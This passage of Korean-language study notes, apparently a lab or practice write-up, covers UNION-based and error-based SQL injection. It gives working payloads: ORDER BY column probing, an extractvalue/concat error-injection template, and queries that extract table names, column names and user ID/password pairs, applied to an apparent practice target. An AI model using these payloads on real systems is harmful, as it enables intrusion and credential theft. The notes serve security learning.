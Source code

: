 ✅ 2단계: 컬럼 수 및 데이터형 확인
- ORDER BY 이용: ORDER BY n -- 로 컬럼 수 파악

✅ 3단계: 정보 탈취
- 테이블 목록 확인: SELECT table_name FROM user_tables
- 컬럼 목록 확인: SELECT column_name FROM all_tab_columns WHERE table_name='MEMBER'
- 데이터 추출: SELECT userid, userpw FROM member


## Error Based SQL Injection 
### Error Based SQL Injection이란?
**Error Based SQL Injection(에러 기반 SQL 인젝션)**은 웹 애플리케이션이 SQL 구문 실행 중 발생한 에러 메시지를 사용자에게 그대로 노출할 때, 이 에러 메시지를 악용하여 데이터베이스의 내부 정보를 탈취하는 공격 기법입니다.

<img width="1398" alt="Image" src="https://github.com/user-attachments/assets/ea1b9a09-c1dc-4294-ac65-115eb5616089" />

### 사용되는 함수 및 의미 
| 함수               | 설명                                                       |
| ---------------- | -------------------------------------------------------- |
| `extractvalue()` | XML에서 XPath를 해석하는 함수 (고의적 에러 유도)                         |
| `concat()`       | 문자열 결합. 예: `concat(0x3a, (SELECT database()))` → `:DB이름` |
| `0x3a`           | `:`의 hex 코드, XML 에러 구조에 맞추기 위한 포맷                        |

### 단계별 공격 흐름
✅ (1) Injection Point 찾기
- ' 등 특수문자 입력 시 에러가 발생하는지 확인

✅ (2) 에러 유발 함수 확인
- extractvalue(1,1) 등 테스트로 메시지 확인

✅ (3) 공격 쿼리 포맷 설계
```sql
' AND extractvalue(1, concat(0x3a, (__SQL__)))) AND '1'='1
```

✅ (4) DB 정보 추출 쿼리
| 목표       | 쿼리                                                                                           |
| -------- | -------------------------------------------------------------------------------------------- |
| DB 이름    | `SELECT database()`                                                                          |
| 테이블명     | `SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 0,1` |
| 컬럼명      | `SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1`      |
| 데이터명 | `select 컬럼명 from 테이블 명 limit 0,1` |

### 문제 풀이 

DB 이름 : `normaltic' AND extractvalue(1, concat(0x3a, (SELECT database()))) AND '1'='1`

<img width="1408" alt="Image" src="https://github.com/user-attachments/assets/d6a09370-b13d-438a-b476-86c2a30cf9df" />
